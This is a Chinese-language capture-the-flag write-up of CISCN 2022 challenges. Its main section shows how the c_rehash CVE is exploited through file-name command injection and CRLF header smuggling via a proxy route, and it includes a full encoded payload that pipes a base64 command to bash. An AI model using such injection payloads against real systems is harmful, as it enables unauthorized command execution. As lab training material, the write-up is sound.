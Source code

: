 ## [CISCN 2022 初赛]online_crt

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220602160204.png)

go源码中的admin路由有文件重命名，

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220602161114.png)

py源码中在createlink路由中会执行系统命令

c_rehash这个命令有一个cve

1.随便找一个pem文件，假设其路径为/tmp/test-cert.pem 2.将$fname参数设置为"/tmp/test-cert.pem"&&whoami&&echo" 最终的执行命令为：openssl x509 -subject_hash -fingerprint -noout -in "/tmp/test-cert.pem"&&whoami&&echo""

whoami就是我们要执行的命令，所以我们要把crt文件重命名来实现rce

能重命名的是go的网站但是没有对外网开放，我们只能通过py网站的proxy路由访问

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220602180202.png)

我们先去get_crt路由创建一个crt文件用于改名

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220602180936.png)

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220602181158.png)

然后去proxy访问admin/rename

发现要先过个判断

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220603151857.png)

需要我们去更改http的请求头

但是

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220603152258.png)

flask这里已经给了请求头，所以我们要有换行符需要伪造请求头

payload

uri=/admin/renam%25%36%35?oldname=6271e5b3-a881-4ba2-8de1-d76517f1ec81.crt%26newname=1.crt%2522%257C%257Cecho%2520Y2F0IC9mbGFnID5jbm0udHh0%257Cbase64%2520-d%257Cbash%2526%2526echo%2522%20HTTP/1.1%0d%0aHost:%20admin%0d%0aConnection:close%0d%0a%0d%0a

## [CISCN 2022 初赛]ezpop

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610191930.png)

thinkphp6反序列化，网上就有payload，用www.zip看源码，找对路由就行

## [CISCN 2022 初赛]ezpentest
